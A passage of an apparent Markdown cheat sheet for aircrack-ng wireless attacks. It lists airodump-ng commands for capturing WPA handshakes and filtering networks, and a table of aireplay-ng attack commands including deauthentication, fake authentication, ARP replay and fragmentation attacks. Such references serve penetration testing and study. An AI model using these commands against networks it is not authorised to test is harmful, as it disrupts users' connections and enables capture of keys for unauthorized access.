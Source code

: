 ### **Advanced Capture Options**
```bash
# Capture handshake with client filter
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w handshake wlan0mon

# Capture with hop interval
airodump-ng --hop-interval 250 wlan0mon

# Capture with manufacturer display
airodump-ng -M wlan0mon

# Capture with signal strength sorting
airodump-ng --sort-by signal wlan0mon

# Capture with time display
airodump-ng --localtime wlan0mon
```

### **Filtering Options**
```bash
# Filter by encryption type
airodump-ng --encrypt WPA2 wlan0mon

# Filter by signal strength
airodump-ng --min-signal -50 wlan0mon

# Filter by ESSID
airodump-ng --essid "TargetNetwork" wlan0mon

# Show only active networks
airodump-ng --active wlan0mon
```

---

## 🎯 Packet Injection & Attacks

### **aireplay-ng - Packet Injection**

| Attack Type | Command | Description |
|-------------|---------|-------------|
| Deauthentication | `aireplay-ng -0 5 -a 00:11:22:33:44:55 wlan0mon` | Send 5 deauth packets |
| Fake authentication | `aireplay-ng -1 0 -a 00:11:22:33:44:55 wlan0mon` | Fake authentication |
| Interactive replay | `aireplay-ng -2 -b 00:11:22:33:44:55 wlan0mon` | Interactive packet replay |
| ARP request replay | `aireplay-ng -3 -b 00:11:22:33:44:55 wlan0mon` | ARP request replay |
| Chop chop attack | `aireplay-ng -4 -b 00:11:22:33:44:55 wlan0mon` | ChopChop attack |
| Fragmentation | `aireplay-ng -5 -b 00:11:22:33:44:55 wlan0mon` | Fragmentation attack |
| Caffe latte | `aireplay-ng -6 -b 00:11:22:33:44:55 wlan0mon` | Caffe-latte attack |
| Client-to-client | `aireplay-ng -7 -b 00:11:22:33:44:55 wlan0mon` | Client-to-client attack |
| WPA migration | `aireplay-ng -8 -b 00:11:22:33:44:55 wlan0mon` | WPA migration attack |
| Injection test | `aireplay-ng -9 wlan0mon` | Test injection capability |
